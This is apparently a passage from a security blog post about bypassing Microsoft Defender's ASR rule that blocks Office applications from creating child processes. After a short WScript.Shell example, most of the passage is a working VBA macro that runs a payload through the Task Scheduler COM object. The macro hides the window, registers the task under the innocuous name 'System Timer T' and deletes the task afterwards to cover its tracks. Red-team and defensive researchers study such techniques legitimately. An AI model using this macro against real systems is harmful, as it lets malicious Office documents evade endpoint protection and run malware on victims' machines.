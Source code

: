 * * *

#### Block all Office applications from creating child processes

“**Office apps will not be allowed to create child processes. This includes Word, Excel, PowerPoint, OneNote, and Access. This is a typical malware behavior, especially for macro-based attacks that attempt to use Office apps to launch or download malicious executables.**”

Trigger rule

This rule is very effective, it prevents running and program or command line from an Office application, it is effective against all kind of attacks such as macro or DDE.

So how to bypass? Well the answer is in the name of the rule. “Block all Office applications from creating child processes”. Let’s assume the rule is not buggy and does not have flaws. Instead of bypassing it, we can just go around!

We just have to execute processes in a way they are not an office application child! And there are plenty of methods to do that, at least from inside a macro.

Test with Wscript.Shell The next code snippet is a classic way to execute a payload in VBA or VBScript.

> Sub Exec(targetPath as String)

> CreateObject(“WScript.Shell”).Run targetPath, 0

> End Sub

This code is obviously blocked by the ASR rule. Same as using VBA “Shell”, “ShellExecute” functions, using DDE attacks or using Excel COM object.

* * *

#### Task Scheduler

This is the first method I came with when I heard about ASR. I thought, well, if my application is not allowed to start a process, let’s just use the task scheduler for that!

```
Sub SchedulerExec(targetPath As String)
    Dim service As Object
    Dim rootFolder As Object
    Dim taskDefinition As Object
    Dim Action As Object
    ' Create Task Scheduler COM Object
    Set service = CreateObject("Schedule.Service")
    service.Connect
    ' Get Root Folder (where tasks are stored)
    Set rootFolder = service.GetFolder("\")
    
    ' Create a new task definition
    Set taskDefinition = service.NewTask(0)
    ' Define the action (execute a program)
    Set Action = taskDefinition.Actions.Create(0) ' ActionTypeExec = 0
    Action.Path = targetPath
    Action.Arguments = ""
    Action.HideAppWindow = True
    ' Register the task with 'Create and Run' options (value 6)
    Call rootFolder.RegisterTaskDefinition("System Timer T", taskDefinition, 6, , , 3)
    ' Wait 1 second before deleting the task
    Application.Wait (Now + TimeValue("0:00:01"))
    ' Delete the task to clean up
    Call rootFolder.DeleteTask("System Timer T", 0)
End Sub
```
